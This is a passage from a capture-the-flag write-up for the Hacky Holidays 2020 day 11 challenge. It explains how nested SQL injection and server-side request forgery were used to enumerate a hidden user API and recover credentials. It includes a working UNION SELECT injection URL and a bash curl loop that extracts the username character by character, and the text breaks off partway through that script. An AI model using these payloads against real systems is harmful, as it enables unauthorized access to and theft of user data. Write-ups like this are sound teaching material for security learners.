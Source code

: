     ![IMAGE](/assets/img/posts/hackyholiday2020/day11/day-11-7.png)

### Finding Valid endpoints and their parameters

1. We can generate the hashes, and we can make the server send request on our behalf, Cool!
2. Now if we query the `/api/*` endpoint, the response was not the previous error, which means now we can enumerate this api for valid endpoints.
3. Now any request that I sent to `/api/*` endpoint the response was always: `"Expected HTTP status 200, Received: 404"`. Which indicates the request is successful, but the resource/endpoint does not exists.
4. Did a little enumeration here, when I sent the request to `/api/user` the response changed to: `"Invalid content type detected"`. This indicates that this is a valid endpoint.
5. Next step was to find the valid parameters, which was quite straight forward as sending the request to `/api/user?username` & `/api/user?password`
   had the response: `"Expected HTTP status 200, Received: 204"`, and for anyother parameters the response was `"Expected HTTP status 200, Received: 400"`.

### Get valid username and password

1. We have the valid parameters, now we need to find their values. The request for this purpose was as follows: 
   
   https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=%27UNION%20SELECT%20"%27UNION%20SELECT%20NULL,NULL,%27../api/user?username=%%27%23",null,null%23 

   **Note that extra "%" after "username=", the % in sql replaces any number of characters - equivalent to '*' in Linux/Unix**

2. First I tried to find the username, and I sent two names, **admin & grinch**. Response for **admin** (or any other value) was `"Expected HTTP status 200, Received: 204"` but for **grinch** it was `"Invalid content type detected"` indicating its correct. To make sure if its the correct username, simply remove the **"%"** after username and if the response is still `"Invalid content type detected"` this means the username is correct otherwise there are more characters to this username.
3. The response was `"Expected HTTP status 200, Received: 204"` which means we have to find the remaining characters of this username. So to do that, I wrote a bash script which does checks for the valid characters and in the end prints out the complete username. Here is the script that I wrote:

    ```bash
    user="grinch";
    check=0;
    cont=1;
    while [ $(echo $cont) == 1 ]; do
	    check=0;
	    for char in $(cat $1)
		do
			curl -s "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=8291%27%20UNION%20SELECT%20%22%27%20union%20select%201,2,%27../api/user?username=$user$char%25%27%23%22,null,null%23" > response.txt; 
			hash=$(cat response.txt | grep data= | cut -d "?" -f2 | cut -d = -f2 | cut -d \" -f1 | tail -n 1)
			curl -s -i "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/picture?data=$hash" > final.txt
			tail -n 1 final.txt	 | grep "Invalid content type detected" > gotit.txt
            echo -n "$char ";
			if [ -s gotit.txt ]; then
				echo -e "\nValid character found : $char"
				user+=$char
				check=1;
                rm gotit.txt
				break